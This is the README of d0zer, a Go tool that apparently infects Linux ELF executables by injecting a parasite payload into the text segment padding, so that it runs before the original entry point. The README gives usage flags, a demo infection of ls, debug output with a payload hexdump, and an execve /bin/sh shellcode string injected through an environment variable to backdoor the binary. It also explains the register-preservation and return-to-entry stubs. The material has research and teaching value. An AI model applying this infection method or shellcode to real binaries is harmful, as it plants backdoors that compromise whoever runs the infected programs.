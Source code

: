 # d0zer
Elf binary infector written in Golang. It can be used for infecting executables of type ET_DYN and ET_EXEC with a payload of your creation. Utilizing the classic elf text segment padding algorithm by Silvio Cesar, your payload (parasite) will run before native functionality of the binary effectively backooring the binary.

d0zer currently allows for up to a page size payload (4096 bytes). It is capable of infecting both x86_32 and x86_64  elf executable binaries executables.

# Motivation
My motivations are quite simple, I like doing interesting things with the ELF's and binary infections of a target requires a decent amount of overhead knowledge and skill prequisite to perform it (TO ME), so I set out to learn from papers, books and specs from the past (see references), throwed Golang in the middle for increased difficulty and here I am.

# Usage

<pre>
[sad0p@Arch-Deliberate d0zer]$ ./d0zer --help
Usage of ./d0zer:
  -debug
    	see debug out put (generated payload, modifications, etc)
  -noPreserve
    	prevents d0zer from prepending its register preservation routine to your payload
  -noRestoration
    	prevents d0zer from appending register restoration routine to your payload
  -noRetOEP
    	prevents d0zer from appending ret-to-OEP (continue execution after payload) to payload
  -payloadBin string
    	path to binary containing payload
  -payloadEnv string
    	name of the environmental variable holding the payload
  -target string
    	path to binary targetted for infection
[sad0p@Arch-Deliberate d0zer]$ 
</pre>

Basic demo (benign) infection can be accomplished with `./dozer -target [path-to-target]`.

<pre> 
[sad0p@Arch-Deliberate d0zer]$ ./d0zer -target experimental/ls
[sad0p@Arch-Deliberate d0zer]$ experimental/ls-infected
hello -- this is a non destructive payloadd0zer	     epiloguejmp.go  jmp-to-oep32      jmp-to-oep.o		  non-destructive-payload32.asm  non-destructive-payload64.o  shellcode.c
d0zer.go     experimental    jmp-to-oep32.asm  LICENSE			  non-destructive-payload32.o	 output			      test
elf64	     genpayload.go   jmp-to-oep32.o    non-destructive-payload	  non-destructive-payload64	 README.md		      test.go
epiloguejmp  jmp-to-oep      jmp-to-oep.asm    non-destructive-payload32  non-destructive-payload64.asm  shellcode
[sad0p@Arch-Deliberate d0zer]$ 
</pre>

Supplying `-debug` allows you to see each step of the infection algorithm at work aswell as a hexdump of the payload as it will be in the binary. 

<pre>
[sad0p@Arch-Deliberate d0zer]$ ./d0zer -target experimental/ls -debug
[+] Modified entry point from 0x5b20 -> 0x173d1
[+] Text segment starts @ 0x4000
[+] Text segment ends @ 0x173d1
[+] Payload size pre-epilogue 0x5c
[+] Payload size post-epilogue 0x90
------------------PAYLOAD----------------------------
00000000  50 51 53 52 56 57 55 54  41 50 41 51 41 52 41 53  |PQSRVWUTAPAQARAS|
00000010  41 54 41 55 41 56 41 57  eb 00 e8 2b 00 00 00 68  |ATAUAVAW...+...h|
00000020  65 6c 6c 6f 20 2d 2d 20  74 68 69 73 20 69 73 20  |ello -- this is |
00000030  61 20 6e 6f 6e 20 64 65  73 74 72 75 63 74 69 76  |a non destructiv|
00000040  65 20 70 61 79 6c 6f 61  64 0a b8 01 00 00 00 bf  |e payload.......|
00000050  01 00 00 00 5e ba 2a 00  00 00 0f 05 41 5f 41 5e  |....^.*.....A_A^|
00000060  41 5d 41 5c 41 5b 41 5a  41 59 41 58 5c 5d 5f 5e  |A]A\A[AZAYAX\]_^|
00000070  5a 5b 59 58 e8 12 00 00  00 48 83 e8 79 48 2d d1  |Z[YX.....H..yH-.|
00000080  73 01 00 48 05 20 5b 00  00 ff e0 48 8b 04 24 c3  |s..H. [....H..$.|
--------------------END------------------------------
[+] Generated and appended position independent return 2 OEP stub to payload
[+] Increased text segment p_filesz and p_memsz by 144 (length of payload)
[+] Adjusting segments after text segment file offsets by 0x%x 4096
Inceasing pHeader @ index 4 by 0x1000
Inceasing pHeader @ index 5 by 0x1000
Inceasing pHeader @ index 6 by 0x1000
Inceasing pHeader @ index 8 by 0x1000
Inceasing pHeader @ index 10 by 0x1000
[+] Increasing section header addresses if they come after text segment
[+] Extending section header entry for text section by payload len.
[+] (15) Updating sections past text segment @ addr 0x18000
[+] (16) Updating sections past text segment @ addr 0x1d324
[+] (17) Updating sections past text segment @ addr 0x1dc78
[+] (18) Updating sections past text segment @ addr 0x21fd0
[+] (19) Updating sections past text segment @ addr 0x21fd8
[+] (20) Updating sections past text segment @ addr 0x21fe0
[+] (21) Updating sections past text segment @ addr 0x22a58
[+] (22) Updating sections past text segment @ addr 0x22c58
[+] (23) Updating sections past text segment @ addr 0x23000
[+] (24) Updating sections past text segment @ addr 0x23280
[+] (25) Updating sections past text segment @ addr 0x0
[+] (26) Updating sections past text segment @ addr 0x0
[+] writing payload into the binary
[sad0p@Arch-Deliberate d0zer]$ 
</pre>

A custom payload can be injected into the binary with the `-payloadEnv` flag. Below I inject a basic execve /bin/sh shellcode into the ls command as an example.

<pre>
[sad0p@Arch-Deliberate d0zer]$ export DOZEREGG="\x6a\x3b\x58\x99\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05"
[sad0p@Arch-Deliberate d0zer]$ ./d0zer -target experimental/ls -payloadEnv DOZEREGG
[sad0p@Arch-Deliberate d0zer]$ experimental/ls-infected
sh-5.1$ 
</pre>

It's worth noting that code being injected should be position independent.

The `-payloadBin` flag is currently not implemented, it would allow you to supply a PIE (binary), where the contents of the text
segments would serve as the payload.

<pre>
[sad0p@Arch-Deliberate d0zer]$ ./d0zer -target experimental/ls -payloadBin ./non-destructive-payload64
Getting payload from an ELF binary .text segment is not yet supported
[sad0p@Arch-Deliberate d0zer]$ 
</pre>

# Advance Usage

In the event you don't like the routines d0zer add to your code the following flags can be utilized, however your payload
should handle any consequences that come comes from removing them.

The `-noPreserve` flag removes the general purpose register routine. For x86_32 targets this is accomplished via a `pushad` instruction. For x86_64 targets all general purpose registers are manually pushed onto the stack as the the `pushad` instruction on x86_64 is not valid. The overall purpose of this routine is to preserve register states after execution your payload, when control is handed back to libc runtime routine (OEP) it expects certain register values in order to properly execute. In some contextes, I was able to simply preserve the `RDX` register and no crashes occured, in others (using shellcode I downloaded) preserving RDX was not enough. So in order to stay portable, I thought it was wise to save all state as I wasn't completely sure which registers were needed currently or in the future.

The `-noRestoration` flag removes the restoration routine, which is the opposite of the preservation routine, it performs a `popa` for x86_32 targets and a manual popping of each general purpose register from the stack.

The `-noRetOEP` flag removes the "return to original entry point" routine. This stub enables portability for across pie (ET_DYN) and non-pie (ET_EXEC) elf executables. The code extracts the randomized base address after it captures the current instuction pointer value by substracting the payload length (+ 5 bytes for the relative call instruction) then adds the offset of the binaries OEP to then perform a `jmp rax` or `jmp eax` (for x86_32) instruction to start executing native/non-parasitic code. If you intend on handling this your self then your code must handle proper exiting of the binary to avoid SIGSEGV.

All preservation, restoration and ret-2-oep shellcode are heavily commented for clarity. Restoration and preservation stubs can be found at the top of the `d0zer.go` source file. The `ret2OEP` routine can be found in `epilogue.go`.
